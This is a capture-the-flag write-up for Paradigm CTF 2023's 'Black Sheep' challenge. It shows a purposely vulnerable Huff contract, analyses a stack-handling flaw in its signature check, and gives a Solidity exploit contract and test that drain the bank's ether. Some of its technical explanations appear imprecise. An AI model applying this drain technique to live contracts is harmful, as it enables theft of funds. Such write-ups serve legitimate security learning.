 # Paradigm CTF 2023 - Black Sheep - Solution

<!-- MarkdownTOC levels="1,2,3" autolink="true" -->

- [Introduction](#introduction)
- [The Contract](#the-contract)
- [Contract Analysis](#contract-analysis)
  - [1. The `withdraw` Function](#1-the-withdraw-function)
  - [2. Identifying the Vulnerability](#2-identifying-the-vulnerability)
- [Exploit Construction](#exploit-construction)
- [Generating a Valid Signature](#generating-a-valid-signature)
- [Exploit Code](#exploit-code)
- [Conclusion](#conclusion)
- [Repositories](#repositories)

<!-- /MarkdownTOC -->

## Introduction

In this article we'll discuss the solution to the challenge from the Paradigm CTF 2023 called "Black Sheep." The contract is written in Huff, a low-level language designed for Ethereum Virtual Machine (EVM) development. As someone passionate about low-level EVM security research, this was an exciting opportunity to dive deep into Huff.

## The Contract

```huff
/* Interface */
#define function withdraw(bytes32,uint8,bytes32,bytes32) payable returns ()


#define macro CHECKVALUE() = takes (0) returns (0) {
    callvalue 0x10 gt over jumpi
    0x00 dup1 revert
    over:
        0x00
        0x00
        0x00
        0x00
        callvalue 0x02 mul
        caller
        0xFFFFFFFF
        call
}
#define macro CHECKSIG() = takes (0) returns (1) {
    0x04 calldataload
    0x00 mstore
    0x24 calldataload
    0x20 mstore
    0x44 calldataload
    0x40 mstore
    0x64 calldataload
    0x60 mstore
    0x20
    0x80
    0x80
    0x00
    0x1
    0xFFFFFFFF
    staticcall
    iszero invalidSigner jumpi
    0x80 mload
    0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044 eq correctSigner jumpi
    end jump

    correctSigner:
        0x00
        end jump
    invalidSigner:
        0x01
        end jump
    end:
}
#define macro WITHDRAW() = takes (0) returns (0){
    CHECKVALUE()
    CHECKSIG()
    iszero iszero noauth jumpi
    0x00 dup1 dup1 dup1
    selfbalance caller
    gas call
    end jump
    noauth:
        0x00 dup1 revert
    end:
}


#define macro MAIN() = takes (0) returns (0) {
    // Identify which function is being called.
    0x00 calldataload 0xE0 shr
    dup1 __FUNC_SIG(withdraw) eq withdrawj jumpi
    callvalue 0x00 lt recieve jumpi

    0x00 0x00 revert

    withdrawj:
        WITHDRAW()
    recieve:
}
```

## Contract Analysis

### 1. The `withdraw` Function

The function `withdraw(bytes32,uint8,bytes32,bytes32)` maps to the `WITHDRAW()` macro. It relies on two sub-macros:

- **`CHECKVALUE()`**: Verifies `msg.value` and reverts if it's more than `0x10` wei. If valid, it doubles the amount and sends it back.
- **`CHECKSIG()`**: Calls the precompiled contract `ecrecover` (at address `0x1`) to verify the signature against a specific address.

### 2. Identifying the Vulnerability

- **Signature Validation Issue:** The contract allows any valid signature, even from addresses other than the intended signer (`0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044`).
- **Redundant `ISZERO` Usage:** The use of `ISZERO` twice doesn't add value; it leaves the stack unchanged. This quirk is not critical for the exploit and may be distractive.
- **Fallback Stack Behavior:** In this particular case, the returned value from
  `CHECKVALUE()`'s `CALL` is used by `JUMPI` if `CHECKSIG()` doesn't push a value.
  This behavior influences the control flow, as `JUMPI` will rely on whatever
  happens to be on top of the stack.

## Exploit Construction

1. Deploy an Attack Contract:

  - The `receive()` function should revert when `msg.value == 0x12` to ensure `CALL` returns `0x0`.
  - Otherwise, it should succeed to collect the funds.

2. Trigger the Vulnerability:

  - Call `withdraw()` with either:
    - A valid signature from any address.
    - Or the tuple `(0x00, 27, 0x00, 0x00)` which results in a non-zero response from `ecrecover`.

## Generating a Valid Signature

We can use `cast` to create an address and generate a valid signature.

<p style="text-align: center;">
  <img width="600" src="/docs/assets/img/black-sheep-01.png">
</p>

## Exploit Code

```solidity
function testExploit() public {
    bytes32 msgHash = keccak256("Black Sheep");
    bytes32 r = 0x9f2c9ed6b027b594f5072cc39b6c5ffca1ca157ad5b661d0d268c577eede360c;
    bytes32 s = 0x52e8bf726d82a28ebd9b172efba7e75fd0671f6c1544b5a5b70ad803de360e33;
    uint8 v = 27;
    bank.withdraw{value: 0x09}(msgHash, v, r, s);

    assertEq(address(Challenge(challengeAddress).BANK()).balance, 0);
}

receive() external payable {
  if (msg.value == 0x12) {
    revert("");
  }
}
```

## Conclusion

This challenge highlighted the nuances of stack manipulation in Huff and the
critical importance of careful flow control, especially for security-related
validations. It also underscores the need for robust signature verification.

To prevent vulnerabilities like signature malleability, contracts should
implement additional controls. For example, the tuple `(0x00, 27, 0x00, 0x00)`
is considered valid by `ecrecover`, so contracts relying on signature
validation must properly handle such cases to prevent misuse.

Additionally, signatures should be bound to specific messages to prevent
replay attacks. Validation checks must ensure only authorized signers are
accepted to maintain the contract's security posture.

Incorporating these best practices helps build more secure smart contracts
and reduces the risk of common attack vectors.

## Repositories

* https://github.com/bentobox19/paradigm-ctf/
* https://github.com/paradigmxyz/paradigm-ctf-2023
